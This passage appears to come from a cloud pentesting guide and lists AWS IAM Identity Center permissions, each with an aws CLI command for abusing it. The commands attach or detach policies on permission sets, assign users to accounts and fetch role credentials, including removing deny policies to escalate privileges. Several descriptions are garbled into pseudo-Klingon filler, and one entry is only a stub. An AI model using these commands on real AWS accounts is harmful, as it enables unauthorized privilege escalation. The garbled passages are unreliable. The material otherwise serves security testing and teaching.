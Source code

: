 ```bash
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:CreateAccountAssignment`

ghItlhDI' attacker vItlhutlh Permission Set user account vItlhutlh.
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
### `sso:GetRoleCredentials`

Returns the STS short-term credentials for a given role name that is assigned to the user.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

However, you need an access token that I'm not sure how to get (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

An attacker with this permission can remove the association between an AWS managed policy from the specified permission set. It is possible to grant more privileges via **detaching a managed policy (deny policy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

**ghItlh** vItlhutlh **Customer managed policy** vItlhutlh **permission set** vItlhutlh **association** vItlhutlh **remove** vItlhutlh **attacker** vItlhutlh **permission** vItlhutlh **with** vItlhutlh **can** vItlhutlh. **Detaching a managed policy (deny policy)** vItlhutlh **more privileges** vItlhutlh **grant** vItlhutlh **possible** vItlhutlh.
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
### `sso:DeleteInlinePolicyFromPermissionSet`

**tlhIngan Hol: `sso:DeleteInlinePolicyFromPermissionSet`**
